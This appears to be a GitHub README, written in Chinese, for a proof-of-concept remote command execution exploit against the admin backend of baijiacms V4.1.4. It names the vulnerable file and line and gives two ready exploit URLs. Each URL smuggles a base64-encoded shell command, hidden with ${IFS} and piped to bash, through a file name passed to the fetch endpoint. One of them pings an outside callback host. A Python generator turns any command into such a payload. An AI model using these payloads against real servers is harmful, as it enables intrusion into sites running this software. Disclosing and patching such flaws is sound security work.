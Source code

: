 # baijiacms-RCE
baijiacms后台RCE


项目地址：https://github.com/baijiacms/baijiacmsV4

版本：V4.1.4 20170105 FINAL
环境：

+ php 5.5.38
+ nginx 1.15
+ mysql 5.7.27
+ 20.04.1-Ubuntu


[README_en](https://github.com/This-is-Y/baijiacms-RCE/blob/main/README_en.md)

漏洞点在文件includes/baijiacms/common.inc.php
第654行。

![图片](https://user-images.githubusercontent.com/51741690/202916918-cb2b4576-d20b-4033-9fd4-da7cf3e4bff9.png)


# 利用

这个system的功能本来是为了执行压缩图片的。所以要利用该漏洞，需要先登录后台，在附近设置中设置图片压缩比例，否则代码无法运行到此处。
![图片](https://user-images.githubusercontent.com/51741690/202916939-4b14710d-5528-4b78-89a1-6afdb18de143.png)



EXP1：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/poc.;echo${IFS}cGluZyBwb2MuZXhyNm1xLmNleWUuaW8gLWMgNA==|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916957-60d79a4a-f01e-4e89-9a6c-4d9e13c733eb.png)




EXP2：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/whoami.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916979-b8c559ac-a262-4d58-9494-1341d12b3d80.png)




其中poc可以使用一下代码生成，随后开启web服务确保可以被访问到即可

```python
import base64

webpath = "/home/ubuntu/test/"
cmd = input("cmd>>> ") 


b64cmd = base64.b64encode(cmd.encode()).decode()

payload = f"echo {b64cmd}|base64 -d|bash"

print(payload)
payload = payload.replace(' ','${IFS}')
print(payload)

name = input("name>>>")
payload = f"{name}.;{payload};"
print(payload)

with open(file=webpath+payload,mode='w')as f:
    f.write('1')

```





